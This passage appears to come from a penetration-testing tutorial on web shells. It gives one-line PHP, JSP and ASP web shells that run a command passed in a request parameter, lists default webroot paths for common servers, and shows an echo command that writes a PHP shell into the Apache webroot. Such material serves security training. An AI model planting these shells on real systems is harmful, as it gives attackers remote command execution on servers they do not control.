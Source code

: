 #### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

---

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---
